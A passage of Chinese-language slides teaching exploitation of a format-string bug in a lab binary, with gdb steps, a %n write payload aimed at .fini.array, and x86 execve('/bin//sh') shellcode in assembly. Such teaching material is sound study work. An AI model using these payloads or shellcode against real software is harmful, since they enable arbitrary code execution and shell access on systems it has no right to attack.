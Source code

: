 - 丟一個 EGG 到環境變數區 
  `export buf= <shellcode>`

### 什麼？不知道 printf() 的參數？

- Google it.

- .red[`man 3 printf`]

---
# Buffer Overflow

- 想辦法讓程式跳到 shell code 去執行

- `objdump -h printf` 得到 .fini.array 的位址 `0x0804960c`

```
$ gdb ./printf
(gdb) b main              設定中斷點 #1
(gdb) disasm main         反組譯，找到 printf()
(gdb) b (printf)          設定中斷點 #2
(gdb) r 'AAAA%4$p'        開始執行，停在中斷點 #1
(gdb) c                   繼續執行，停在中斷點 #2
(gdb) x/20s $ebp          尋找 buf=
```

- 用 python 算一下 offset

```
(gdb) r $'\x4c\x96\x04\x08\x4e\x96\x04\x08%56888c%4$n%8639c%5$n'
(gdb) c                   執行到程式結束
```

---
# Buffer Overflow

- 回到 console 下再做一次:

```bash
./printf $'\x4c\x96\x04\x08\x4e\x96\x04\x08%56888c%4$n%8639c%5$n'
```

- 打完收工


---
# Shell Code? (AT&T 格式)

`execve(const char *filename, char *const argv[], char *const envp[]);`

```assembly
xor    %eax,%eax          ; eax 清為 0
push   %eax               ; 00000000 (字串結束的 '\0')
push   $0x68732f2f        ; 68732f2f    hs//
push   $0x6e69622f        ; 6e69622f    nib/
mov    %esp,%ebx          ; ebx  => filename
push   %eax               ;      NULL => argv[1]
push   %ebx               ;      *1   => argv[0]
mov    %esp,%ecx          ; ecx = (char **argv)
mov    $0xb,%al           ; 11 (sys_execve)
int    $0x80              ; edx = envp 這裡沒指定
```
